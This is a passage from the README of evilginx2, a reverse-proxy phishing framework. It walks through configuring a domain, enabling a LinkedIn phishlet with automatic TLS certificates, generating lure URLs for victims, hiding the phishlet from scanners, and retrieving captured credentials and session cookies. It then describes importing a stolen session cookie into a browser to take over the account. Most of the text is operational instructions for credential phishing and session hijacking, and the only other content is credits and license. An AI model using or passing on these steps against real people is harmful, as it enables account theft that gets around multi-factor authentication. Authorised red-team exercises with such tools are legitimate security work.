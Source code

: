 Set up your server's domain and IP using following commands:
```
config domain yourdomain.com
config ip 10.0.0.1
```

Now you can set up the phishlet you want to use. For the sake of this short guide, we will use a LinkedIn phishlet. Set up the hostname for the phishlet (it must contain your domain obviously):
```
phishlets hostname linkedin my.phishing.hostname.yourdomain.com
```

And now you can `enable` the phishlet, which will initiate automatic retrieval of LetsEncrypt SSL/TLS certificates if none are locally found for the hostname you picked:
```
phishlets enable linkedin
```

Your phishing site is now live. Think of the URL, you want the victim to be redirected to on successful login and get the phishing URL like this (victim will be redirected to `https://www.google.com`):
```
lures create linkedin
lures edit redirect_url 0 https://www.google.com
lures get-url 0
```

Running phishlets will only respond to tokenized links, so any scanners who scan your main domain will be redirected to URL specified as `redirect_url` under `config`. If you want to hide your phishlet and make it not respond even to valid tokenized phishing URLs, use `phishlet hide/unhide <phishlet>` command.

You can monitor captured credentials and session cookies with:
```
sessions
```

To get detailed information about the captured session, with the session cookie itself (it will be printed in JSON format at the bottom), select its session ID:
```
sessions <id>
```

The captured session cookie can be copied and imported into Chrome browser, using [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) extension.

**Important!** If you want **evilginx2** to continue running after you log out from your server, you should run it inside a `screen` session.

## Support

If you want to report issues with the tool, please do it by submitting a pull request. Thank you!

## Credits

Huge thanks to Simone Margaritelli ([@evilsocket](https://twitter.com/evilsocket)) for [bettercap](https://github.com/bettercap/bettercap) and inspiring me to learn GO and rewrite the tool in that language!

## License

**evilginx2** is made by Kuba Gretzky ([@mrgretzky](https://twitter.com/mrgretzky)) and it's released under GPL3 license.
